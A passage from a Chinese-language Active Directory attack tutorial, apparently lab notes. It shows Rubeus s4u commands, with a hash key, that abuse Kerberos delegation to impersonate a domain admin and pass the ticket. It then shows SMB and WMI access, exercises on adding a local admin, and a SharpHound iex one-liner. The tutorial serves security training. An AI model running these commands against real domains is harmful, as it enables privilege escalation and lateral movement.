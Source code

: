 ## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626704018104-627733c0-daeb-4f7f-a9df-cd70c0fe0203.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=199843&status=done&style=none&width=1024)
Rubeus允许我们在新的登录会话中启动powershell。这意味着我们伪造的票证只存在于这个登录会话中，不会干扰用户john已经存在的kerboers票证。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626704079832-4a76e6f0-de0c-4613-9be2-549ac958e50f.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=159087&status=done&style=none&width=1024)<br />使用s4u请求一个TGS模拟域管理用户Bruce（bwillis）攻击user1。<br />
<br />我们请求3个不同服务的票证<br />CIFS将用于SMB访问<br />HOST/RPCSS用于WMI
```bash
Invoke-Rubeus -Command "s4u /user:service1 /aes256:BE09389D798B17683B105FF6432BA4FD4785DA5A08BFD3F39328A6525433E073 /impersonateuser:bwillis /msdsspn:cifs/user1.wing.lab /ptt"
Invoke-Rubeus -Command "s4u /user:service1 /aes256:BE09389D798B17683B105FF6432BA4FD4785DA5A08BFD3F39328A6525433E073  /impersonateuser:bwillis /msdsspn:host/user1.wing.lab /ptt"
Invoke-Rubeus -Command "s4u /user:service1 /aes256:BE09389D798B17683B105FF6432BA4FD4785DA5A08BFD3F39328A6525433E073 /impersonateuser:bwillis /msdsspn:rpcss/user1.wing.lab /ptt"

```
<a name="4MKov"></a>
## ![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626704418571-95dc9782-effc-4975-b950-faa789563a2c.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=663202&status=done&style=none&width=1024)
查看缓存的票据<br />前面我设置错了，委派的目标应该设置成user2，user1是自己，不过意思都一样。<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/370919/1626704525216-218371b6-7993-43a8-9183-e543ef961cbc.png#align=left&display=inline&height=806&margin=%5Bobject%20Object%5D&name=image.png&originHeight=1612&originWidth=2048&size=460074&status=done&style=none&width=1024)
```bash
 ls \\user1.wing.lab\C$
```
通过wmi控制user1
```bash
Get-WmiObject -Class win32_process -ComputerName adsec-01.contoso.com
```
<a name="vvzxD"></a>
## 
<a name="Mz068"></a>
### 课后习题

1. 在上面的练习中，您通过SMB和WMI获得了对服务器user的读取权限。现在试着通过这两个协议来执行代码。目标是执行以下命令，将用户john添加到本地管理组
1. 尝试模拟域管理员用户Chuck Norris而不是“Bruce Willis。有什么作用


<br />
<br />

<a name="eZBBE"></a>
## ACL攻击
信息收集
```bash
cat -raw .\SharpHound.ps1 | iex
```
